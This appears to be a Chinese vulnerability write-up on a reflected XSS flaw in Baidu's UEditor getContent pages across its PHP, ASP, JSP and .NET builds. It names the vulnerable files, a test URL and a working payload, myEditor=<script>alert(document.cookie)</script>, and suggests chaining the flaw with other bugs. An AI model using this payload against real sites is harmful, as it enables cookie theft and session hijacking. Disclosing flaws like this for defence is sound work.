




# 百度 ueditor 编辑器 xss 漏洞

> 原文：[http://book.iwonder.run/0day/Ueditor/4.html](http://book.iwonder.run/0day/Ueditor/4.html)

## 一、漏洞简介

产品官网下载地址：

[https://ueditor.baidu.com/website/download.html#mini](https://ueditor.baidu.com/website/download.html#mini)

涉及版本：php , asp, jsp, net

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

存在漏洞的文件：

```
/php/getContent.php
/asp/getContent.asp
/jsp/getContent.jsp
/net/getContent.ashx 
```

#### /php/getContent.php



入进行了过滤，但是在 14 行输出时却使用了 htmlspecialchars_decode，造成 XSS 漏洞。

#### /asp/getContent.asp



获取 myEditor 参数无过滤，直接输出。

#### /jsp/getContent.jsp



获取 myEditor 参数无过滤，直接输出。

#### /net/getContent.ashx



获取 myEditor 参数无过滤，直接输出。

### 漏洞复现

php 版本测试，其他版本一样。


url:

```
http://0-sec.org/php/getcontent.php 
```

payload:

```
myEditor=<script>alert(document.cookie)</script>
// myEditor 中的’ E ’必须大写，小写无效。 
```

由于只是个反弹 XSS，单独这个漏洞影响小。若能结合使用该编辑器的网站的其他漏洞使用，则可能产生不错的效果。

## 四、参考链接

> [https://blog.csdn.net/yun2diao/article/details/91381846](https://blog.csdn.net/yun2diao/article/details/91381846)

